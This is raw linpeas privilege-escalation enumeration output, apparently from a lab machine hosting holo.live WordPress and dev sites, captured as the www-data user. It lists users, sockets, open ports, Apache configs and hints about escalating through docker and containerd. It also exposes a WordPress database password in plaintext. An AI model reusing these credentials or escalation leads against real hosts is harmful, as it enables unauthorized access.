    drwxr-xr-x   2 root root 4096 Jun 23  2021 .
    drwxr-xr-x 101 root root 4096 Sep 24 16:47 ..
    -rw-r--r--   1 root root  102 Feb 13  2020 .placeholder
    -rwxr-xr-x   1 root root  539 Apr 13  2020 apache2
    -rwxr-xr-x   1 root root  376 Dec  4  2019 apport
    -rwxr-xr-x   1 root root 1478 Apr  9  2020 apt-compat
    -rwxr-xr-x   1 root root  355 Dec 29  2017 bsdmainutils
    -rwxr-xr-x   1 root root 1187 Sep  5  2019 dpkg
    -rwxr-xr-x   1 root root 2211 Sep  1  2019 locate
    -rwxr-xr-x   1 root root  377 Jan 21  2019 logrotate
    -rwxr-xr-x   1 root root 1123 Feb 25  2020 man-db
    -rwxr-xr-x   1 root root 4574 Jul 18  2019 popularity-contest
    -rwxr-xr-x   1 root root  214 Apr  2  2020 update-notifier-common
    
    /etc/cron.hourly:
    total 12
    drwxr-xr-x   2 root root 4096 Sep  7  2020 .
    drwxr-xr-x 101 root root 4096 Sep 24 16:47 ..
    -rw-r--r--   1 root root  102 Feb 13  2020 .placeholder
    
    /etc/cron.monthly:
    total 12
    drwxr-xr-x   2 root root 4096 Sep  7  2020 .
    drwxr-xr-x 101 root root 4096 Sep 24 16:47 ..
    -rw-r--r--   1 root root  102 Feb 13  2020 .placeholder
    
    /etc/cron.weekly:
    total 20
    drwxr-xr-x   2 root root 4096 Sep  7  2020 .
    drwxr-xr-x 101 root root 4096 Sep 24 16:47 ..
    -rw-r--r--   1 root root  102 Feb 13  2020 .placeholder
    -rwxr-xr-x   1 root root  813 Feb 25  2020 man-db
    -rwxr-xr-x   1 root root  211 Apr  2  2020 update-notifier-common
    
    SHELL=/bin/sh
    PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
    
    17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
    25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
    47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
    52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
    
    ╔══════════╣ System timers
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#timers
    NEXT                        LEFT          LAST                        PASSED       UNIT
              ACTIVATES
    Sun 2024-09-29 09:09:00 UTC 25min left    Sun 2024-09-29 08:39:05 UTC 4min 15s ago phpsessionclean.timer        phpsessionclean.service
    Sun 2024-09-29 10:20:37 UTC 1h 37min left Sat 2024-09-28 17:19:10 UTC 15h ago      motd-news.timer              motd-news.service
    Sun 2024-09-29 10:43:16 UTC 1h 59min left Sat 2024-09-28 19:38:01 UTC 13h ago      fwupd-refresh.timer          fwupd-refresh.service
    Sun 2024-09-29 12:37:31 UTC 3h 54min left Thu 2024-09-26 09:46:40 UTC 2 days ago   apt-daily.timer              apt-daily.service
    Mon 2024-09-30 00:00:00 UTC 15h left      Tue 2024-09-24 16:47:06 UTC 4 days ago   fstrim.timer                 fstrim.service
    Mon 2024-09-30 00:00:00 UTC 15h left      Sun 2024-09-29 04:49:57 UTC 3h 53min ago logrotate.timer              logrotate.service
    Mon 2024-09-30 00:00:00 UTC 15h left      Sun 2024-09-29 04:49:57 UTC 3h 53min ago man-db.timer                 man-db.service
    Mon 2024-09-30 06:47:50 UTC 22h left      Sun 2024-09-29 06:04:17 UTC 2h 39min ago apt-daily-upgrade.timer      apt-daily-upgrade.service
    Mon 2024-09-30 06:57:27 UTC 22h left      Sun 2024-09-29 06:57:27 UTC 1h 45min ago systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service
    Sun 2024-10-06 03:10:52 UTC 6 days left   Sun 2024-09-29 04:50:27 UTC 3h 52min ago e2scrub_all.timer            e2scrub_all.service
    
    ╔══════════╣ Analyzing .timer files
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#timers
    
    ╔══════════╣ Analyzing .service files
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#services
    /etc/systemd/system/multi-user.target.wants/atd.service could be executing some relative path
    You can't write on systemd PATH
    
    ╔══════════╣ Analyzing .socket files
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sockets
    /etc/systemd/system/sockets.target.wants/uuidd.socket is calling this writable listener: /run/uuidd/request
    /usr/lib/systemd/system/dbus.socket is calling this writable listener: /var/run/dbus/system_bus_socket
    /usr/lib/systemd/system/sockets.target.wants/dbus.socket is calling this writable listener: /var/run/dbus/system_bus_socket
    /usr/lib/systemd/system/sockets.target.wants/systemd-journald-dev-log.socket is calling this writable listener: /run/systemd/journal/dev-log
    /usr/lib/systemd/system/sockets.target.wants/systemd-journald.socket is calling this writable listener: /run/systemd/journal/stdout
    /usr/lib/systemd/system/sockets.target.wants/systemd-journald.socket is calling this writable listener: /run/systemd/journal/socket
    /usr/lib/systemd/system/syslog.socket is calling this writable listener: /run/systemd/journal/syslog
    /usr/lib/systemd/system/systemd-journald-dev-log.socket is calling this writable listener: /run/systemd/journal/dev-log
    /usr/lib/systemd/system/systemd-journald.socket is calling this writable listener: /run/systemd/journal/stdout
    /usr/lib/systemd/system/systemd-journald.socket is calling this writable listener: /run/systemd/journal/socket
    /usr/lib/systemd/system/uuidd.socket is calling this writable listener: /run/uuidd/request
    
    ╔══════════╣ Unix Sockets Listening
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sockets
    sed: -e expression #1, char 0: no previous regular expression
    /org/kernel/linux/storage/multipathd
    /run/acpid.socket
      └─(Read Write)
    /run/containerd/containerd.sock
    /run/containerd/containerd.sock.ttrpc
    /run/containerd/s/ed427c4eb76c17d54c81a7d440db1158195555812ab4cff51d4ef77bf05bbfd6
    /run/dbus/system_bus_socket
      └─(Read Write)
    /run/docker.sock
    /run/irqbalance//irqbalance399.sock
      └─(Read )
    /run/irqbalance/irqbalance399.sock
      └─(Read )
    /run/lvm/lvmpolld.socket
    /run/mysqld/mysqld.sock
      └─(Read Write)
    /run/systemd/journal/dev-log
      └─(Read Write)
    /run/systemd/journal/io.systemd.journal
    /run/systemd/journal/socket
      └─(Read Write)
    /run/systemd/journal/stdout
      └─(Read Write)
    /run/systemd/journal/syslog
      └─(Read Write)
    /run/systemd/notify
      └─(Read Write)
    /run/systemd/private
      └─(Read Write)
    /run/systemd/userdb/io.systemd.DynamicUser
      └─(Read Write)
    /run/udev/control
    /run/uuidd/request
      └─(Read Write)
    /var/run/docker/libnetwork/649db8d36d29.sock
    /var/run/docker/metrics.sock
    /var/run/mysqld/mysqld.sock
      └─(Read Write)
    
    ╔══════════╣ D-Bus Service Objects list
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#d-bus
    NAME                            PID PROCESS         USER             CONNECTION    UNIT
             SESSION DESCRIPTION
    :1.0                            291 systemd-timesyn systemd-timesync :1.0          systemd-timesyncd.service   -       -
    :1.1                            338 systemd-network systemd-network  :1.1          systemd-networkd.service    -       -
    :1.17                         24953 busctl          www-data         :1.17         apache2.service             -       -
    :1.2                            340 systemd-resolve systemd-resolve  :1.2          systemd-resolved.service    -       -
    :1.3                              1 systemd         root             :1.3          init.scope
             -       -
    :1.4                            382 accounts-daemon[0m root             :1.4          accounts-daemon.service     -       -
    :1.5                            550 polkitd         root             :1.5          polkit.service              -       -
    :1.6                            405 systemd-logind  root             :1.6          systemd-logind.service      -       -
    :1.8                            402 networkd-dispat root             :1.8          networkd-dispatcher.service -       -
    :1.9                            584 unattended-upgr root             :1.9          unattended-upgrades.service -       -
    com.ubuntu.LanguageSelector       - -               -                (activatable) -
             -       -
    com.ubuntu.SoftwareProperties     - -               -                (activatable) -
             -       -
    io.netplan.Netplan                - -               -                (activatable) -
             -       -
    org.freedesktop.Accounts        382 accounts-daemon[0m root             :1.4          accounts-daemon.service     -       -
    org.freedesktop.DBus              1 systemd         root             -             init.scope
             -       -
    org.freedesktop.PackageKit        - -               -                (activatable) -
             -       -
    org.freedesktop.PolicyKit1      550 polkitd         root             :1.5          polkit.service              -       -
    org.freedesktop.bolt              - -               -                (activatable) -
             -       -
    org.freedesktop.fwupd             - -               -                (activatable) -
             -       -
    org.freedesktop.hostname1         - -               -                (activatable) -
             -       -
    org.freedesktop.locale1           - -               -                (activatable) -
             -       -
    org.freedesktop.login1          405 systemd-logind  root             :1.6          systemd-logind.service      -       -
    org.freedesktop.network1        338 systemd-network systemd-network  :1.1          systemd-networkd.service    -       -
    org.freedesktop.resolve1        340 systemd-resolve systemd-resolve  :1.2          systemd-resolved.service    -       -
    org.freedesktop.systemd1          1 systemd         root             :1.3          init.scope
             -       -
    org.freedesktop.timedate1         - -               -                (activatable) -
             -       -
    org.freedesktop.timesync1       291 systemd-timesyn systemd-timesync :1.0          systemd-timesyncd.service   -       -
    ╔══════════╣ D-Bus config files
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#d-bus
    Possible weak user policy found on /etc/dbus-1/system.d/dnsmasq.conf (        <policy user="dnsmasq">)
    
                                  ╔═════════════════════╗
    ══════════════════════════════╣ Network Information ╠══════════════════════════════
                                  ╚═════════════════════╝
    ╔══════════╣ Interfaces
    # symbolic names for networks, see networks(5) for more information
    link-local 169.254.0.0
    br-19e3b4fa18b8: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
            inet 192.168.100.1  netmask 255.255.255.0  broadcast 192.168.100.255
            inet6 fe80::42:40ff:febf:dce0  prefixlen 64  scopeid 0x20<link>
            ether 02:42:40:bf:dc:e0  txqueuelen 0  (Ethernet)
            RX packets 2104  bytes 2763724 (2.7 MB)
            RX errors 0  dropped 0  overruns 0  frame 0
            TX packets 2729  bytes 228312 (228.3 KB)
            TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
    
    docker0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
            inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
            ether 02:42:7c:47:0d:a2  txqueuelen 0  (Ethernet)
            RX packets 0  bytes 0 (0.0 B)
            RX errors 0  dropped 0  overruns 0  frame 0
            TX packets 0  bytes 0 (0.0 B)
            TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
    
    eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 9001
            inet 10.200.107.33  netmask 255.255.255.0  broadcast 10.200.107.255
            inet6 fe80::20:71ff:fe19:59a7  prefixlen 64  scopeid 0x20<link>
            ether 02:20:71:19:59:a7  txqueuelen 1000  (Ethernet)
            RX packets 4012  bytes 1117220 (1.1 MB)
            RX errors 0  dropped 0  overruns 0  frame 0
            TX packets 3091  bytes 2989334 (2.9 MB)
            TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
    
    lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
            inet 127.0.0.1  netmask 255.0.0.0
            inet6 ::1  prefixlen 128  scopeid 0x10<host>
            loop  txqueuelen 1000  (Local Loopback)
            RX packets 238  bytes 21425 (21.4 KB)
            RX errors 0  dropped 0  overruns 0  frame 0
            TX packets 238  bytes 21425 (21.4 KB)
            TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
    
    veth85d246d: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
            inet6 fe80::6857:cbff:febe:11d1  prefixlen 64  scopeid 0x20<link>
            ether 6a:57:cb:be:11:d1  txqueuelen 0  (Ethernet)
            RX packets 2104  bytes 2793180 (2.7 MB)
            RX errors 0  dropped 0  overruns 0  frame 0
            TX packets 2745  bytes 229528 (229.5 KB)
            TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
    
    ╔══════════╣ Hostname, hosts and DNS
    ip-10-200-107-33
    127.0.0.1 localhost
    
    ::1 ip6-localhost ip6-loopback
    fe00::0 ip6-localnet
    ff00::0 ip6-mcastprefix
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouters
    ff02::3 ip6-allhosts
    
    nameserver 127.0.0.53
    options edns0
    search eu-west-1.compute.internal
    eu-west-1.compute.internal
    
    ╔══════════╣ Active Ports
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports
    tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
    tcp        0      0 192.168.100.1:3306      0.0.0.0:*               LISTEN      -
    tcp        0      0 127.0.0.1:36943         0.0.0.0:*               LISTEN      -
    tcp        0      0 192.168.100.1:8080      0.0.0.0:*               LISTEN      -
    tcp6       0      0 :::22                   :::*                    LISTEN      -
    tcp6       0      0 :::33060                :::*                    LISTEN      -
    tcp6       0      0 :::80                   :::*                    LISTEN      -
    
    ╔══════════╣ Can I sniff with tcpdump?
    No
    
                                   ╔═══════════════════╗
    ═══════════════════════════════╣ Users Information ╠═══════════════════════════════
                                   ╚═══════════════════╝
    ╔══════════╣ My user
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#users
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    
    ╔══════════╣ Do I have PGP keys?
    /usr/bin/gpg
    netpgpkeys Not Found
    netpgp Not Found
    
    ╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
    
    ./linpeas.sh: 3390: get_current_user_privot_pid: not found
    ╔══════════╣ Checking sudo tokens
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#reusing-sudo-tokens
    ptrace protection is enabled (1)
    
    ╔══════════╣ Checking Pkexec policy
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe#pe-method-2
    
    [Configuration]
    AdminIdentities=unix-user:0
    [Configuration]
    AdminIdentities=unix-group:sudo;unix-group:admin
    
    ╔══════════╣ Superusers
    root:x:0:0:root:/root:/bin/bash
    
    ╔══════════╣ Users with console
    linux-admin:x:1001:1001:,,,:/home/linux-admin:/bin/bash
    root:x:0:0:root:/root:/bin/bash
    ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
    
    ╔══════════╣ All users & groups
    uid=0(root) gid=0(root) groups=0(root)
    uid=1(daemon[0m) gid=1(daemon[0m) groups=1(daemon[0m)
    uid=10(uucp) gid=10(uucp) groups=10(uucp)
    uid=100(systemd-network) gid=102(systemd-network) groups=102(systemd-network)
    uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),118(lxd)
    uid=1001(linux-admin) gid=1001(linux-admin) groups=1001(linux-admin)
    uid=101(systemd-resolve) gid=103(systemd-resolve) groups=103(systemd-resolve)
    uid=102(systemd-timesync) gid=104(systemd-timesync) groups=104(systemd-timesync)
    uid=103(messagebus) gid=106(messagebus) groups=106(messagebus)
    uid=104(syslog) gid=110(syslog) groups=110(syslog),4(adm),5(tty)
    uid=105(_apt) gid=65534(nogroup) groups=65534(nogroup)
    uid=106(tss) gid=111(tss) groups=111(tss)
    uid=107(uuidd) gid=112(uuidd) groups=112(uuidd)
    uid=108(tcpdump) gid=113(tcpdump) groups=113(tcpdump)
    uid=109(sshd) gid=65534(nogroup) groups=65534(nogroup)
    uid=110(landscape) gid=115(landscape) groups=115(landscape)
    uid=111(pollinate) gid=1(daemon[0m) groups=1(daemon[0m)
    uid=112(ec2-instance-connect) gid=65534(nogroup) groups=65534(nogroup)
    uid=113(mysql) gid=119(mysql) groups=119(mysql)
    uid=114(dnsmasq) gid=65534(nogroup) groups=65534(nogroup)
    uid=13(proxy) gid=13(proxy) groups=13(proxy)
    uid=2(bin) gid=2(bin) groups=2(bin)
    uid=3(sys) gid=3(sys) groups=3(sys)
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    uid=34(backup) gid=34(backup) groups=34(backup)
    uid=38(list) gid=38(list) groups=38(list)
    uid=39(irc) gid=39(irc) groups=39(irc)
    uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
    uid=41(gnats) gid=41(gnats) groups=41(gnats)
    uid=5(games) gid=60(games) groups=60(games)
    uid=6(man) gid=12(man) groups=12(man)
    uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
    uid=7(lp) gid=7(lp) groups=7(lp)
    uid=8(mail) gid=8(mail) groups=8(mail)
    uid=9(news) gid=9(news) groups=9(news)
    uid=998(lxd) gid=100(users) groups=100(users)
    uid=999(systemd-coredump) gid=999(systemd-coredump) groups=999(systemd-coredump)
    
    ╔══════════╣ Login now
     08:43:24 up  2:01,  0 users,  load average: 0.32, 0.10, 0.04
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    
    ╔══════════╣ Last logons
    reboot   system boot  Tue Nov  3 12:03:38 2020 - Wed Nov  4 02:02:35 2020  (13:58)     0.0.0.0
    ubuntu   pts/0        Mon Nov  2 23:33:56 2020 - Tue Nov  3 12:02:24 2020  (12:28)     10.41.0.2
    reboot   system boot  Mon Nov  2 23:33:41 2020 - Tue Nov  3 12:02:27 2020  (12:28)     0.0.0.0
    ubuntu   pts/1        Mon Nov  2 22:35:55 2020 - Mon Nov  2 23:32:34 2020  (00:56)     10.41.0.2
    root     pts/0        Mon Nov  2 20:47:55 2020 - down                      (02:44)     10.41.0.2
    root     pts/1        Sat Oct 31 23:05:52 2020 - Mon Nov  2 09:56:14 2020 (1+10:50)    10.41.0.2
    ubuntu   pts/0        Sat Oct 31 22:48:42 2020 - Sat Oct 31 23:12:21 2020  (00:23)     10.41.0.2
    reboot   system boot  Sat Oct 31 22:18:43 2020 - Mon Nov  2 23:32:36 2020 (2+01:13)    0.0.0.0
    
    wtmp begins Sat Oct 31 22:18:43 2020
    
    ╔══════════╣ Last time logon each user
    Username         Port     From             Latest
    root             pts/1    10.41.0.2        Tue Feb 23 09:09:02 +0000 2021
    ubuntu           pts/0    10.41.0.2        Wed Dec  9 15:39:48 +0000 2020
    linux-admin      pts/0    10.41.0.2        Sat Jan 16 19:48:21 +0000 2021
    root             pts/1    10.41.0.2        Tue Feb 23 09:09:02 +0000 2021
    
    ╔══════════╣ Do not forget to test 'su' as any other user with shell: without password and with their names as password (I don't do it in FAST mode...)
    
    ╔══════════╣ Do not forget to execute 'sudo -l' without password or with valid password (if you know it)!!
    
                                 ╔══════════════════════╗
    ═════════════════════════════╣ Software Information ╠═════════════════════════════
                                 ╚══════════════════════╝
    ╔══════════╣ Useful software
    /usr/bin/base64
    /usr/bin/ctr
    /usr/bin/curl
    /usr/bin/docker
    /usr/bin/gcc
    /usr/bin/make
    /usr/bin/nc
    /usr/bin/netcat
    /usr/bin/nmap
    /usr/bin/perl
    /usr/bin/php
    /usr/bin/ping
    /usr/bin/python3
    /usr/sbin/runc
    /usr/bin/sudo
    /usr/bin/wget
    
    ╔══════════╣ Installed Compilers
    ii  gcc                            4:9.3.0-1ubuntu2                  amd64        GNU C compiler
    ii  gcc-9                          9.3.0-17ubuntu1~20.04             amd64        GNU C compiler
    /usr/bin/gcc
    
    ╔══════════╣ Analyzing Apache-Nginx Files (limit 70)
    Apache version: Server version: Apache/2.4.41 (Ubuntu)
    Server built:   2021-06-17T18:27:53
    httpd Not Found
    
    Nginx version: nginx Not Found
    
    /etc/apache2/mods-enabled/php7.4.conf-<FilesMatch ".+\.ph(ar|p|tml)$">
    /etc/apache2/mods-enabled/php7.4.conf:    SetHandler application/x-httpd-php
    --
    /etc/apache2/mods-enabled/php7.4.conf-<FilesMatch ".+\.phps$">
    /etc/apache2/mods-enabled/php7.4.conf:    SetHandler application/x-httpd-php-source
    --
    /etc/apache2/mods-available/php7.4.conf-<FilesMatch ".+\.ph(ar|p|tml)$">
    /etc/apache2/mods-available/php7.4.conf:    SetHandler application/x-httpd-php
    --
    /etc/apache2/mods-available/php7.4.conf-<FilesMatch ".+\.phps$">
    /etc/apache2/mods-available/php7.4.conf:    SetHandler application/x-httpd-php-source
    ══╣ PHP exec extensions
    drwxr-xr-x 2 root root 4096 Nov  3  2020 /etc/apache2/sites-enabled
    drwxr-xr-x 2 root root 4096 Nov  3  2020 /etc/apache2/sites-enabled
    lrwxrwxrwx 1 root root 35 Nov  3  2020 /etc/apache2/sites-enabled/000-default.conf -> ../sites-available/000-default.conf
    <VirtualHost *:80>
            ServerName dev-mirror.holo.live
            ServerAdmin webmaster@localhost
            DocumentRoot /var/www/html
            ErrorLog ${APACHE_LOG_DIR}/error.log
            CustomLog ${APACHE_LOG_DIR}/access.log combined
    </VirtualHost>
    
    drwxr-xr-x 2 root root 4096 Nov  2  2020 /home/docker/etc/apache2/sites-enabled
    drwxr-xr-x 2 root root 4096 Nov  2  2020 /home/docker/etc/apache2/sites-enabled
    lrwxrwxrwx 1 root root 27 Oct 22  2020 /home/docker/etc/apache2/sites-enabled/dev.conf -> ../sites-available/dev.conf
    <VirtualHost *:80>
            ServerName dev.holo.live
            ServerAdmin admin@holo.live
            ServerName dev.holo.live
            DocumentRoot /var/www/dev/
            <Directory "/var/www/dev">
                    Options FollowSymLinks
                    AllowOverride Limit Options FileInfo
                    DirectoryIndex index.php
                    Order allow,deny
                    Allow from all
            </Directory>
            ErrorLog ${APACHE_LOG_DIR}/error.log
            CustomLog ${APACHE_LOG_DIR}/access.log combined
    </VirtualHost>
    lrwxrwxrwx 1 root root 29 Oct 22  2020 /home/docker/etc/apache2/sites-enabled/admin.conf -> ../sites-available/admin.conf
    <VirtualHost *:80>
            ServerAdmin admin@holo.live
            ServerName admin.holo.live
            DocumentRoot /var/www/admin/
            <Directory "/var/www/admin/">
                    Options FollowSymLinks
                    AllowOverride Limit Options FileInfo
                    DirectoryIndex index.php
                    Order allow,deny
                    Allow from all
            </Directory>
            ErrorLog ${APACHE_LOG_DIR}/error.log
            CustomLog ${APACHE_LOG_DIR}/access.log combined
    </VirtualHost>
    lrwxrwxrwx 1 root root 35 Sep  5  2020 /home/docker/etc/apache2/sites-enabled/000-default.conf -> ../sites-available/000-default.conf
    <VirtualHost *:80>
            ServerAdmin admin@holo.live
            DocumentRoot /var/www/wordpress
            ErrorLog ${APACHE_LOG_DIR}/error.log
            CustomLog ${APACHE_LOG_DIR}/access.log combined
    </VirtualHost>
    lrwxrwxrwx 1 root root 37 Oct 22  2020 /home/docker/etc/apache2/sites-enabled/000-wordpress.conf -> ../sites-available/000-wordpress.conf
    <Directory /var/www/wordpress>
        Options FollowSymLinks
        AllowOverride Limit Options FileInfo
        DirectoryIndex index.php
        Order allow,deny
        Allow from all
    </Directory>
    <Directory /var/www/wordpress/wp-content>
        Options FollowSymLinks
        Order allow,deny
        Allow from all
    </Directory>
    
    -rw-r--r-- 1 root root 1364 Nov  3  2020 /etc/apache2/sites-available/000-default.conf
    <VirtualHost *:80>
            ServerName dev-mirror.holo.live
            ServerAdmin webmaster@localhost
            DocumentRoot /var/www/html
            ErrorLog ${APACHE_LOG_DIR}/error.log
            CustomLog ${APACHE_LOG_DIR}/access.log combined
    </VirtualHost>
    lrwxrwxrwx 1 root root 35 Nov  3  2020 /etc/apache2/sites-enabled/000-default.conf -> ../sites-available/000-default.conf
    <VirtualHost *:80>
            ServerName dev-mirror.holo.live
            ServerAdmin webmaster@localhost
            DocumentRoot /var/www/html
            ErrorLog ${APACHE_LOG_DIR}/error.log
            CustomLog ${APACHE_LOG_DIR}/access.log combined
    </VirtualHost>
    -rw-r--r-- 1 root root 1330 Nov  3  2020 /home/docker/etc/apache2/sites-available/000-default.conf
    <VirtualHost *:80>
            ServerAdmin admin@holo.live
            DocumentRoot /var/www/wordpress
            ErrorLog ${APACHE_LOG_DIR}/error.log
            CustomLog ${APACHE_LOG_DIR}/access.log combined
    </VirtualHost>
    lrwxrwxrwx 1 root root 35 Sep  5  2020 /home/docker/etc/apache2/sites-enabled/000-default.conf -> ../sites-available/000-default.conf
    <VirtualHost *:80>
            ServerAdmin admin@holo.live
            DocumentRoot /var/www/wordpress
            ErrorLog ${APACHE_LOG_DIR}/error.log
            CustomLog ${APACHE_LOG_DIR}/access.log combined
    </VirtualHost>
    
    -rw-r--r-- 1 root root 72941 Oct  6  2020 /etc/php/7.4/apache2/php.ini
    allow_url_fopen = On
    allow_url_include = Off
    odbc.allow_persistent = On
    mysqli.allow_persistent = On
    pgsql.allow_persistent = On
    -rw-r--r-- 1 root root 72539 Oct  6  2020 /etc/php/7.4/cli/php.ini
    allow_url_fopen = On
    allow_url_include = Off
    odbc.allow_persistent = On
    mysqli.allow_persistent = On
    pgsql.allow_persistent = On
    
    ╔══════════╣ Checking if containerd(ctr) is available
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/containerd-ctr-privilege-escalation
    ctr was found in /usr/bin/ctr, you may be able to escalate privileges with it
    ctr: failed to dial "/run/containerd/containerd.sock": connection error: desc = "transport: error while dialing: dial unix /run/containerd/containerd.sock: connect: permission denied"
    
    ╔══════════╣ Searching docker files (limit 70)
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation
    lrwxrwxrwx 1 root root 33 Oct 31  2020 /etc/systemd/system/sockets.target.wants/docker.socket -> /lib/systemd/system/docker.socket
    -rw-r--r-- 1 root root 197 Mar 10  2020 /usr/lib/systemd/system/docker.socket
    -rw-r--r-- 1 root root 0 Oct 31  2020 /var/lib/systemd/deb-systemd-helper-enabled/sockets.target.wants/docker.socket
    
    ╔══════════╣ Analyzing MariaDB Files (limit 70)
    -rw-r--r-- 1 root root 869 Oct 12  2020 /etc/mysql/mariadb.cnf
    [client-server]
    !includedir /etc/mysql/conf.d/
    !includedir /etc/mysql/mariadb.conf.d/
    
    -rw------- 1 root root 317 Oct 31  2020 /etc/mysql/debian.cnf
    
    ╔══════════╣ Analyzing Wordpress Files (limit 70)
    -rw-r----- 1 www-data www-data 3672 Nov  3  2020 /home/docker/wordpress/wp-config.php
    define( 'DB_NAME', 'wordpress' );
    define( 'DB_USER', 'admin' );
    define( 'DB_PASSWORD', 'DBManagerLogin!' );
    define( 'DB_HOST', '127.0.0.1' );
    
    ╔══════════╣ Analyzing Rsync Files (limit 70)
    -rw-r--r-- 1 root root 1044 Oct 15  2019 /usr/share/doc/rsync/examples/rsyncd.conf
    [ftp]
            comment = public archive
            path = /var/www/pub
            use chroot = yes
            lock file = /var/lock/rsyncd
            read only = yes
            list = yes
            uid = nobody
            gid = nogroup
            strict modes = yes
            ignore errors = no
            ignore nonreadable = yes
            transfer logging = no
            timeout = 600
            refuse options = checksum dry-run
            dont compress = *.gz *.tgz *.zip *.z *.rpm *.deb *.iso *.bz2 *.tbz
    
    ╔══════════╣ Analyzing PAM Auth Files (limit 70)
    drwxr-xr-x 2 root root 4096 Jun  5  2021 /etc/pam.d
    -rw-r--r-- 1 root root 2133 May 29  2020 /etc/pam.d/sshd
    account    required     pam_nologin.so
    session [success=ok ignore=ignore module_unknown=ignore default=bad]        pam_selinux.so close
    session    required     pam_loginuid.so
    session    optional     pam_keyinit.so force revoke
    session    optional     pam_motd.so  motd=/run/motd.dynamic
    session    optional     pam_motd.so noupdate
    session    optional     pam_mail.so standard noenv # [1]
    session    required     pam_limits.so
    session    required     pam_env.so # [1]
    session    required     pam_env.so user_readenv=1 envfile=/etc/default/locale
    session [success=ok ignore=ignore module_unknown=ignore default=bad]        pam_selinux.so open
    
    ╔══════════╣ Analyzing Ldap Files (limit 70)
    The password hash is from the {SSHA} to 'structural'
    drwxr-xr-x 2 root root 4096 Feb 24  2021 /etc/ldap
    
    ╔══════════╣ Analyzing Cloud Init Files (limit 70)
    -rw-r--r-- 1 root root 3577 Jun  2  2020 /etc/cloud/cloud.cfg
         lock_passwd: True
    
    ╔══════════╣ Analyzing Keyring Files (limit 70)
    drwxr-xr-x 2 root root 4096 Sep  7  2020 /usr/share/keyrings
    
    ╔══════════╣ Analyzing Postfix Files (limit 70)
    -rw-r--r-- 1 root root 813 Feb  2  2020 /usr/share/bash-completion/completions/postfix
    
    ╔══════════╣ Analyzing FTP Files (limit 70)
    
    -rw-r--r-- 1 root root 69 Oct  6  2020 /etc/php/7.4/mods-available/ftp.ini
    -rw-r--r-- 1 root root 69 Oct  6  2020 /usr/share/php7.4-common/common/ftp.ini
    
    ╔══════════╣ Analyzing DNS Files (limit 70)
    -rw-r--r-- 1 root root 832 Feb  2  2020 /usr/share/bash-completion/completions/bind
    -rw-r--r-- 1 root root 832 Feb  2  2020 /usr/share/bash-completion/completions/bind
    
    ╔══════════╣ Analyzing Other Interesting Files (limit 70)
    -rw-r--r-- 1 root root 3771 Feb 25  2020 /etc/skel/.bashrc
    -rw-r--r-- 1 linux-admin linux-admin 3771 Nov  4  2020 /home/linux-admin/.bashrc
    
    -rw-r--r-- 1 root root 807 Feb 25  2020 /etc/skel/.profile
    -rw-r--r-- 1 linux-admin linux-admin 807 Nov  4  2020 /home/linux-admin/.profile
    -rw-r--r-- 1 ubuntu ubuntu 807 Feb 25  2020 /home/ubuntu/.profile
    
    -rw-r--r-- 1 ubuntu ubuntu 0 Oct 31  2020 /home/ubuntu/.sudo_as_admin_successful
    
    ╔══════════╣ Analyzing Windows Files (limit 70)
    
    lrwxrwxrwx 1 root root 20 Oct 31  2020 /etc/alternatives/my.cnf -> /etc/mysql/mysql.cnf
    lrwxrwxrwx 1 root root 24 Oct 31  2020 /etc/mysql/my.cnf -> /etc/alternatives/my.cnf
    -rw-r--r-- 1 root root 81 Nov  3  2020 /var/lib/dpkg/alternatives/my.cnf
    
    ╔══════════╣ Searching mysql credentials and exec
    From '/etc/mysql/mysql.conf.d/mysqld.cnf' Mysql user: user              = mysql
    Found readable /etc/mysql/my.cnf
    !includedir /etc/mysql/conf.d/
    !includedir /etc/mysql/mysql.conf.d/
    
